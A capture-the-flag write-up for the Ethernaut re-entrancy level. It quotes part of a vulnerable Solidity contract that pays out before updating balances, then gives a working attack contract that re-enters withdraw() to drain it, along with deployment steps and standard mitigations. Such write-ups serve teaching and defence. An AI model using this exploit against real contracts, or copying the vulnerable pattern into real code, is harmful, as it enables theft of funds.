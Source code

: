 ```
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
### Solution
##### Explanation
`withdraw()` in the `Reentrance` contract uses `call` to send the amount. And it changes the balance after sending the amount. If the withdrawer is a contract, it can re-enter by calling withdraw function from its fallback or receive function since the balance is yet to be updated.
##### Exploit
```
contract AttackReentrance {
  Reentrance public target;

  constructor(Reentrance _target) public {
    target = _target;
  }

  receive() external payable {
    if(targetBalance() > 0) {
      target.withdraw(targetBalance());
    }
  }

  function attack() external payable {
    target.donate{value: targetBalance()}(address(this));
    target.withdraw(targetBalance());
    (bool success,) = msg.sender.call{value: address(this).balance}("");
    require(success, "transfer failed");
  }

  function targetBalance() public view returns(uint256) {
    return address(target).balance;
  }
}
```
1. Deploy the above contract with the `Reentrance` instance as an argument.
2. Call `attack()` to donate and trigger re-entrance. (I used to donate the same balance in the Reentrance contract to pass the check condition while attacking)\
Hurray! We now know how classic re-entrance works. Read the below mitigations to avoid this.
##### Takeaway from Ethernaut
To prevent re-entrance attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.\
`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).\
Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.\
\
Re-entrancy is a common attack. You should always be prepared for it!\